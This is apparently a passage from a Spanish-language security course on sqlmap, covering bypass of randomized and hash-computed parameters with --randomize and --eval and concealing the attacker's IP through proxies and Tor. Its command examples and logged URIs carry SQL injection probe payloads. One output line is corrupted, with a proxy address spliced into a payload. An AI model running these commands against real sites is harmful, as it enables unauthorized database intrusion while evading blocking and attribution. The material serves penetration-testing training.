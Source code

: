 ```r
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&rp=99954
URI: http://www.example.com:80/?id=1&rp=87216
URI: http://www.example.com:80/?id=9030&rp=36456
URI: http://www.example.com:80/?id=1.%2C%29%29%27.%28%28%2C%22&rp=16689
URI: http://www.example.com:80/?id=1%27xaFUVK%3C%27%22%3EHKtQrg&rp=40049
URI: http://www.example.com:80/?id=1%29%20AND%209368%3D6381%20AND%20%287422%3D7422&rp=95185
```

---

## Calculated Parameter Bypass

Otro mecanismo similar es cuando una aplicación web espera que un valor de parámetro adecuado se calcule en función de otros valores de parámetros. Con mayor frecuencia, un valor de parámetro debe contener el digest del mensaje (e.g. `h=MD5(id)`) de otro. Para eludir esto, se debe usar la opción `--eval`, donde se evalúa un código Python válido justo antes de que se envíe la solicitud al objetivo:

```r
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=9061&h=4d7e0d72898ae7ea3593eb5ebf20c744
URI: http://www.example.com:80/?id=1%2C.%2C%27%22.%2C%28.%29&h=620460a56536e2d32fb2f4842ad5a08d
URI: http://www.example.com:80/?id=1%27MyipGP%3C%27%22%3EibjjSu&h=db7c815825b14d67aaa32da09b8b2d42
URI: http://www.example.com:80/?id=1%29%20AND%209978%socks4://177.39.187.70:33283ssocks4://177.39.187.70:332833D1232%20AND%20%284955%3D4955&h=02312acd4ebe69e2528382dfff7fc5cc
```

---

## IP Address Concealing

En caso de que queramos ocultar nuestra dirección IP, o si una determinada aplicación web tiene un mecanismo de protección que pone en la lista negra nuestra dirección IP actual, podemos intentar usar un proxy o la red de anonimato Tor. Un proxy se puede configurar con la opción `--proxy` (e.g. `--proxy="socks4://177.39.187.70:33283"`), donde deberíamos agregar un proxy funcional.

Además, si tenemos una lista de proxies, podemos proporcionarlos a SQLMap con la opción `--proxy-file`. De esta manera, SQLMap recorrerá secuencialmente la lista, y en caso de cualquier problema (e.g., poner en la lista negra la dirección IP), simplemente pasará del actual al siguiente de la lista. La otra opción es el uso de la red Tor para proporcionar una fácil anonimización, donde nuestra IP puede aparecer desde cualquier lugar de una gran lista de nodos de salida de Tor. Cuando se instala correctamente en la máquina local, debería haber un servicio de proxy `SOCKS4` en el puerto local 9050 o 9150. Al usar el interruptor `--tor`, SQLMap intentará automáticamente encontrar el puerto local y usarlo apropiadamente.

Si quisiéramos asegurarnos de que Tor se está usando correctamente, para prevenir un comportamiento no deseado, podríamos usar el interruptor `--check-tor`. En tales casos, SQLMap se conectará a `https://check.torproject.org/` y verificará la respuesta para el resultado esperado (i.e., aparece `Congratulations`).

---